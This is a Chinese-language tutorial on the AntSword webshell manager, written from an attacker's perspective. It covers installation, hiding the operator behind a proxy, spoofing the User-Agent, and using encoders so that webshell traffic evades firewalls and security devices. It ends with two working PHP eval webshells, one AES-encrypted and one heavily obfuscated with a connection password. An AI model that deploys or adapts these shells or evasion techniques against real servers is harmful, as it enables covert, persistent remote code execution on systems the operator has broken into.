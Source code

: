 # antsword

## 前言

蚁剑（antsword）是一款优秀的webshell管理工具，使用该工具的时候可能是很多人最幸福的时刻之一，因为使用该工具代表着我们经过千辛万苦获取到了一定的权限，但如果我们使用不当，这很可能是我们最悲伤的时候

很多人对于webshell管理工具的使用可能很粗糙，比如上传了一句话木马后，就直接使工具连接了。但现在的安全设备已经十分熟悉蚁剑这一类工具的指纹信息了，可能我们刚连上木马，下一秒权限就丢失了

官方文档：https://www.yuque.com/antswordproject/antsword
项目地址：https://github.com/AntSwordProject/AntSword


# 安装

## Windows 安装

1、创建一个空目录，确保绝对路径中不包含中文

2、下载蚁剑源码到此目录中：

```
源码下载：https://github.com/AntSwordProject/antSword/archive/refs/heads/master.zip
```

3、下载对应系统版本的加载器，并解压：
```
加载器：https://github.com/AntSwordProject/AntSword-Loader
```

4、使用管理员权限执行antSword.exe

5、点击初始化，并在选择工作目录时，选择存放蚁剑源码的目录。

## Linux 安装

1、创建一个空目录，确保绝对路径中不包含中文。
```
mkdir antSword
```
2、下载蚁剑源码到此目录中：
```bash
cd antSword
git clone https://github.com/AntSwordProject/antSword.git
chmod 644 antSword/antSword-master
```
3、下载对应系统版本的加载器：
```bash
wget https://github.com/AntSwordProject/AntSword-Loader/releases/download/v4.0.3/AntSword-Loader-v4.0.3-linux-x64.zip
```
4、进入加载器目录，赋予可执行权限：
```bash
unzip AntSword-Loader-v4.0.3-linux-x64.zip
mv AntSword-Loader-v4.0.3-linux-x64 /usr/local/antsword
chmod u+x /usr/local/antsword/AntSword
ln -s /usr/local/antsword/AntSword /usr/local/bin/antsword
```
5、启动蚁剑：
```bash
sudo antsword
```
6、点击初始化，并在选择工作目录时，选择存放蚁剑源码的目录。

## 初始化

在图形化界面的命令行中执行：
```
chmod 777 /usr/local/antsword
antsword
```
- 在弹出的窗口中点击：`Initialize`
- 在弹出的窗口中选择：`/usr/local/antsword`，点击右下角`OK`
- 等待下载完成后，窗口自动关闭就是安装好了
- 启动命令：`antsword`
## 设置代理

使用代理主要目的是隐藏自身，注意使用代理可以连接内网shell的技巧不要忘了。另外可以设置代理地址为burp，自己抓包看看 antsword 的流量

![image.png](https://minioapi.nerubian.cn/image/20250331191232554.jpeg)

## 请求头配置

antsword 最明显的流量特征就是 User-Agent，不过我下载的最新版竟然会自动生成 User-Agent。为了安全还是设置一下

![image.png](https://minioapi.nerubian.cn/image/20250331191232661.jpeg)

设置好后可以用 burp 抓包验证一下

![image.png](https://minioapi.nerubian.cn/image/20250331191232809.jpeg)

## 编码器

User-Agent 设置好后，但我们却发现注入的代码基本是明文传输，如果目标有防火墙之类的设备，我们会很难连接上shell

antsword 提供了几种编码器也可以尝试使用，如 chr 编码器，PHP 类型独有，通信时使用 `chr`函数对传输的字符串进行处理拼接，可以看到请求中除了 eval 字样没有明显的特征信息

![image.png](https://minioapi.nerubian.cn/image/20250331191232751.jpeg)

hex 编码器，ASPX, CUSTOM 类独有，将通信数据字符转成16进制数据传输

另外我找到 antsword 在 github 上也提供了一些编码器：https://github.com/AntSwordProject/AwesomeEncoder

我这里以 aes_128_ecb_zero_padding.js为例，演示一下怎么去设置使用这些编码器

复制代码先手动添加编码器和解码器

![image.png](https://minioapi.nerubian.cn/image/20250331191232880.jpeg)

该编码器是需要特定的shell配合的，所以我们上传的shell需要单独定制，如该编码器需要的shell如下：

```php
<?php
@session_start();
$pwd='ant';
$key=@substr(str_pad(session_id(),16,'a'),0,16);
@eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));
?>
```

链接shell时要选好对应的编码器和解码器

![image.png](https://minioapi.nerubian.cn/image/20250331191232645.jpeg)

可以抓包看下流量，基本上没有什么特征信息了

![image.png](https://minioapi.nerubian.cn/image/20250331191233814.jpeg)

如果能做到webshell免杀和通信流量隐藏，我们就会拥有稳稳的幸福

# 连接

```php
<?php // 使用时请删除此行, 连接密码: PBhrkcDW ?>
<?php $GpYh=create_function(str_rot13('$').chr(591-476).chr(98901/891).str_rot13('z').chr(792-691),base64_decode('ZQ==').chr(900-782).base64_decode('YQ==').str_rot13('y').chr(35760/894).chr(23436/651).chr(0xdf-0x6c).str_rot13('b').base64_decode('bQ==').base64_decode('ZQ==').base64_decode('KQ==').str_rot13(';'));$GpYh(base64_decode('MzI2M'.'zE0O0'.'BldkF'.'sKCRf'.''.chr(0x63f1/0x12d).chr(0x6627/0x17b).str_rot13('9').chr(0x10d10/0x334).str_rot13('I').''.''.chr(66570/951).chr(76212/657).str_rot13('D').chr(714-633).chr(0314632/01702).''.'hya2N'.'EV10p'.'Ozk3O'.'Dk0Mj'.'s='.''));?>
```